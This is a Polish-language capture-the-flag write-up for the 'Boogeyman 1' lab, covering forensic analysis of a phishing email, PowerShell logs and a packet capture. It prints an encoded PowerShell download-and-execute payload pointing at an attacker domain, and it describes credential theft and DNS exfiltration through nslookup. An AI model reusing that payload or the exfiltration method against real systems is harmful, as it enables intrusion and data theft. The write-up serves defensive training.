 #BOXTITLE: Boogeyman 1
TASK1
W boxie tym naszym zadaniem jest przeanalizowanie TTPs'a wykonanego na maszynie.
Całe zadanie zostało podzielone na 3 etapy:
Etap1 - Analiza maila phishingowego
Etap2 - Analiza logów powershella
Etap3 - Analiza logów pakietów internetowych

---
## Task1
**Q:** Let's hunt that boogeyman! </br>
**A:** No answer needed

---



TASK2
Q: What is the email address used to send the phishing email?

W: Przechodzimy do folderu z artefaktami, znajdujemy plik dump.eml który otwieramy w aplikacji thunderbird mail. Informacje o nadawcy maila możemy uzyskać bez głębszego analizowania maila, wartość dla pola From:.

A: agriffin@bpakcaging.xyz



Q: What is the email address of the victim?

W: Informacje o odbiorcy maila możemy zauważyć bez glębszego analizowania maila, wartość dla pola To:.

A: julianne.westcott@hotmail.com



Q: What is the name of the third-party mail relay service used by the attacker based on the DKIM-Signature and List-Unsubscribe headers?

w: Przechodzimy do More>Show Source, wyszukujemy pole DKIM-Signature, nazwa serwisu znajduje sie w polu p=.

A: elasticemail


Q: What is the name of the file inside the encrypted attachment?

W: Pobieramy załącznik i rozpakowywujemy go na spreparowanym sandboxie przy użyciu hasła zawartego w mailu.

A: Invoice_20230103.lnk


Q: What is the password of the encrypted attachment?

W: Hasło znajdujemy bezpośrednio w mailu.

A: Invoice2023!



Q: Based on the result of the lnkparse tool, what is the encoded payload found in the Command Line Arguments field?

W: Uruchamiamy cmd, przechodzimy na Desktop, wykonujemy komende lnkparse nazwa_pliku. Informacja o komendzie możemy dostrzec w polu Command line arguments po fladze -enc.

A: aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==





TASK3

Q: What are the domains used by the attacker for file hosting and C2? Provide the domains in alphabetical order. (e.g. a.domain.com,b.domain.com)

W: Uruchamiamy cmd w folderze zawierajacym artefakt jsona, wykonujemy komende:
cat powershell.json | jq -s -c 'sort_by(.Timestamp) | .[]'| jq '{ScriptBlockText}'| sort | uniq
W polu ScriptBlockText $s= możemy zauważyć pierwsza domene ktora posłużyła do ataku, następną domene możemy odczytać poniżej.

A: cdn.bpakcaging.xyz,files.bpakcaging.xyz



Q: What is the name of the enumeration tool downloaded by the attacker?

W: Nazwe pobranego narzędzia możemy dostrzec po uruchomieniu tej samej komendy, wyszukujemy w treści wartość .exe

A: seatbelt



Q: What is the file accessed by the attacker using the downloaded sq3.exe binary? Provide the full file path with escaped backslashes.

W: W tym samym miejscu możemy odszukac wartosc zależne od sq3.exe, w tym sqlite.

A: C:\\Users\\j.westcott\\AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\\LocalState\\plum.sqlite



Q: What is the software that uses the file in Q3?

W: W tym samym miejscu możemy zauważyć wiele wspomnień dla MicrosoftStickyNotes, również w tym gdzie plik wykonywalny został zapisany.

A: Microsoft Sticky Notes



Q: What is the name of the exfiltrated file?

W: W tym samym miejscu, szukamy gdzie dane mogłybyć zapisane, jest to jeden z końcowych etapów ataków więc informacji o tym szukamy na końcu logów.

A: protected_data.kdbx



Q: What type of file uses the .kdbx file extension?

W: Informacje o tym możemy znaleść w zewnętrznych źródłach.

A: keepass



Q: What is the encoding used during the exfiltration attempt of the sensitive file?

W: Informacje o tym możemy znaleść w miejscu gdzie dane są wysyłane, np w tym samym ciagu co metoda POST, odnajdujemy informacje o tym na poczatku, w polu ScriptBlockText $split = 

A: hex



Q: What is the tool used for exfiltration?

W: W tym samym miejscu co kodowanie możemy znaleść informacje o narzędziach użytych do wysłania danych.

A: nslookup



TASK4

Q: What software is used by the attacker to host its presumed file/payload server?

W: Uruchamiamy capture.pcapng przy użyciu Wiresharka, wiemy nazwe pliku oraz to ze zawartosc zostala przeslana poprzez protokół http. Filtrujemy ruch poprzez filtr:
http contains "files.bpakcaging.xyz", dostrzegamy 5 pakietów. Przechodzimy na początek, prawy na pakiet, Follow > TCP Stream. Podążanie za potokiem pakietu z początku ataku pozwala na dokładną analizę komunikacji podczas ataku. W wartosc przesyłanych przez serwer w polu Server: możemy dostrzec oprogramowanie serwera

A: python



Q: What HTTP method is used by the C2 for the output of the commands executed by the attacker?

W: Informacja o tym dostępna była w poprzednim zadaniu, wiemy, że atakujący przysyłał dane poprzez POST'a

A: POST



Q: What is the protocol used during the exfiltration activity?

W: Informacja o tym dostępna była w poprzednim zadaniu, wiemy, że atakujący przysyłał dane poprzez nslookup czyli protokół dns'a

A: dns



Q: What is the password of the exfiltrated file?

W: W poprzednich zadaniach mogliśmy dostrzec plik sq3.exe który posłużył do zebrania danych z urządzenia.
Otwieramy Wiresharka oraz nasz plik pcapng, wyszukujemy pakietów które zawierają ten plik czyli filtr:
http contains "sq3.exe". Dostrzegamy 4 pakiety. Śledzimy Potok TCP pierwszego, możemy zauważyć, że numerem tego potoku jest 749, sprawdzamy co stało się następnie czyli dla potoku o numerze 750.
Dostrzegamy zakodowany ciąg liczbowy. Wprowadzamy ten ciąg do CyberChefa z wyszukiwaniem jakim algorytmem został zakodowany czyli operacja "Magic". Otrzymujemy entropie 5.33 dla kodowania From_Decimal('Space',false). Stosujemy tą operację zamiast Magic, uzyskujemy tym samym jawne dane, w tym hasło które posłużyło do zakodowania bazy danych.

A: %p9^3!lL^Mz47E2GaT^y



Q: What is the credit card number stored inside the exfiltrated file?

W: W celu uzyskania informacji o karcie, musimy odczytać tą zawartość z bazy danych.
Możemy zastosować następującą komende w cmd:
tshark -r capture.pcapng  -Y 'dns' -T fields -e dns.qry.name |grep ".bpakcaging.xyz" | cut -f1 -d '.'|grep -v -e "files" -e "cdn" | uniq | tr -d '\\n'
która odczyta plik pcap, nałoży filtr dns a następnie odpowiednio podzieli dane tabel. Tak uzyskany ciąg tekstowy musimy odkodować z hexowego np w cyberchefie. Zapisując wyniki z cyberchefa w formie nazwapliku.kdbx pozwala na uzyskanie dostepu do bazy danych poprzez program KeePassX wraz z podaniem hasła które uzyskaliśmy w poprzednim pytaniu.


A: 4024007128269551


